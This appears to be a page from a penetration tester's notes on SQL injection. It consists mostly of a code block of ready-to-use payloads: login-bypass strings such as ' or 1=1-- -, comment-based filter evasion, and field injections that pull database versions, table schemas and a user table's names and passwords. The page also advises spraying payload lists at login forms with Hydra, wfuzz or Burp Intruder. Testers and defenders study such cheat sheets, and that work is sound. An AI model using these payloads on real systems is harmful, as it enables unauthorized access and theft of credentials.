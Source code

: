 ## SQLi types

{% hint style="info" %}
As parameter, it's important to try cod=1 or cod=**-1**, specially in cases where the query does not display info that is supposed to. The - is to avoid displaying the 1st query.

Both boolean and time-based could be blind.
{% endhint %}

### Basic

{% code overflow="wrap" fullWidth="true" %}
```bash
https://github.com/payloadbox/sql-injection-payload-list#generic-sql-injection-payloads
https://portswigger.net/support/sql-injection-bypassing-common-filters

# FIRST, IF POSSIBLE TRY ALL THIS LIST WITH HYDRA/WFUZZ/INTRUDER IN ONE OR BOTH FIELDS
https://github.com/payloadbox/sql-injection-payload-list#sql-injection-auth-bypass-payloads

SELECT * FROM users WHERE username = 'admin' AND PASSWORD = 'admin'
SELECT * FROM users WHERE username = 'admin'--
SELECT * FROM users WHERE username = 'admin';
SELECT * FROM users WHERE username = 'bob'/**/SELECT/**/UNION/**/*/**/FROM/**/users/**/LIMIT/**/1;
SELECT * FROM users WHERE username = 'adm'||'in';

'
"
-- -
' or 1=1--
' or 1=1-- -
1 or 1=1-- -
' or 1=1 -- -;
' or 1=1 --
' OR 1=1 #
1' or '1'='1'-- -
SAME WITH " 
'--
"--
') -- -
admin'--
admin';
user' -- -

# URL/POST INJECTION USING BURP (TO BYPASS CLIENT-SIDE JAVASCRIPT VALIDATION)

# MySQL and MSSQL
',nickName=@@version,email='
# For Oracle
',nickName=(SELECT banner FROM v$version),email='
# For SQLite
',nickName=sqlite_version(),email=
SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%')
',nickName=(SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='usertable'),email='
',nickName=(SELECT group_concat(profileID || "," || name || "," || password || ":") from usertable),email='

# FIX ERRORS (ERROR-BASED OR BLIND)
1' --+ # + is the encoded result of the space
```
{% endcode %}
